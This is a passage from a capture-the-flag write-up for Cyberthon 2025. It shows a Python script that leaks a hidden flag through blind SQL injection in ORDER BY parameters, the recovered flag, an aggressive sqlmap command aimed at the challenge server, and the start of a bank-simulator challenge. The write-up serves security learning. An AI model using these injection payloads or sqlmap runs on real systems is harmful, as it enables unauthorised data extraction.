 ```python
async def attempt(c: httpx.AsyncClient, sort_by="name", sort_order="asc"):
    res = await c.get(f"{url}/api/gpus?sort_by={sort_by}&sort_order={sort_order}&page=1&per_page=2&search=RTX 4060")
    data = res.json()
    if "error" in data:
        print(f"Err: {data['error']}")
        print(f"Payloads:\n{sort_by}\n{sort_order}")
        return False
    matched = "Ti" in data["data"][0]["name"]
    return matched

async def main():
    async with httpx.AsyncClient() as client:
        cur = ""
        while True:
            queue = []
            for char in chars:
                tmp = cur+char
                order_payload = f"* (CASE WHEN (SELECT INSTR(architecture, '{cur+char}') FROM gpus WHERE name='RGB 6090')=1 THEN -1 ELSE 1 END)"
                sort_payload = f"CASE WHEN (SELECT INSTR(architecture, '{cur+char}') FROM gpus WHERE name='RGB 6090') = 1 THEN architecture ELSE name END"
                # queue.append(attempt(client,sort_by="cuda_cores", sort_order=order_payload))
                queue.append(attempt(client,sort_by=sort_payload, sort_order="asc"))

            queue = await asyncio.gather(*queue)
            cur += chars[queue.index(True)]
            print(cur)
            # return

asyncio.run(main())
```
From there, we can slowly leak the characters of the flag in the RGB 6090 after checking every single field (In this case, the flag was hidden in `architecture`)
`Cyberthon{M04R_AYY_E11_4ND_RGB_M34N5_B33G_FP5_1NCR3453}`
> Interestingly, on the competition day itself `sort_by` refused to work for whatever reason. Instead, DeepSeek suggested this interesting trick to control the sort order using `ASC`/`DESC` in numerical values
> ![[Pasted image 20250512134627.png]]

### The cheese method(?)
As it turns out, when 0 sanitization or processing is being done on your payload and the returned response from the server is not complex, sqlmap is able to brute force the entire solve process for you.
```bash
sqlmap -a --url="http://chals.f.cyberthon25.ctf.sg:50131/api/gpus?sort_by=boost_clock&sort_order=asc&page=1&per_page=9" --risk=3 --level=5 --threads=5
```
![[Pasted image 20250512140142.png]]
## Treasure bank
#langs/python 
We have a bank simulator app where our goal is to obtain an impossibly large amount of money to claim the flag. Reviewing the source, code we see the docker compose file contains 2 services to be run:
```yml
services:
  bank:
    build: bank
    ports:
      - "33339:5000"
  bank-kit:
    build: bank-kit
```
